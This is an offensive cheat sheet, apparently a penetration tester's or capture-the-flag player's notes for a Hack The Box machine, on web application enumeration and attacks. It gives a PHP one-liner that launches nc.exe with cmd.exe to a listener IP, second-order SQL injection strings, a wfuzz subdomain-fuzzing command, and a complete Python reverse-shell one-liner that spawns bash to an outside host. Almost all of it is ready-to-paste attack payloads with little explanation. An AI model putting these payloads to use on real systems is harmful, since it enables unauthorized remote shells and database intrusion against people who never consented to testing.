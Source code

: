 # Web Application Enumeration and Attacks

| Check | Description |
| ---------------------------- | ---------------------------- |
| Curl vs Refreshing the page | Curl the page, you may see different users invoking the service (secnotes.htb) |
| Simple PHP to run nc.exe | ```<?php system('nc.exe -e cmd.exe 10.10.16.19 12345' ?> >> nc.php``` |
| Check for XSRF in password reset functions | If the application allows a password reset without validating the user, you maybe able to trick the user into resetting their password |
| Subdomain enumeration with wfuzz | ```sudo wfuzz -c -f sub-fighter.txt -w subdomains-top1million-5000.txt -u 'http://domain.xyz' -H "Host:FUZZ.domain.xyz" --hw 290``` |

## 2nd Order SQLi
```
' OR 1 OR '
' OR 1='1
```

## Python Reverse Shell
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.19",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```